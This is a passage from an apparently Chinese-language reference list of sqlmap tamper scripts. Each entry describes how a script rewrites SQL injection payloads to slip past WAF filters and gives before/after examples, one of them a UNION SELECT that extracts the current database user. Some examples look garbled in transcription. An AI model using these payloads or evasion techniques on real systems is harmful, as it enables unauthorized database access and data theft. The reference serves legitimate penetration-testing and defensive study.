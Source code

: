 **3:multiplespaces.py**

作用：围绕SQL关键字添加多个空格

示例：

```
'1 UNION SELECT foobar'
'1 UNION SELECT foobar'
```

在以下版本做过测试:

All

**4:halfversionedmorekeywords.py**

作用：关键字前加注释

示例：

```
value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa 
value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa
```

版本要求:

```
MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22
```

**5:unionalltounion.py**

作用：替换UNION ALL SELECT UNION SELECT

示例：

```
'-1 UNION ALL SELECT'
'-1 UNION SELECT'
```

版本要求: all

**6:randomcomments.py**

作用：用/**/分割sql关键字

```
‘INSERT’
‘IN//S//ERT’
```

**7:unmagicquotes.py**

作用：宽字符绕过 GPC addslashes

示例：
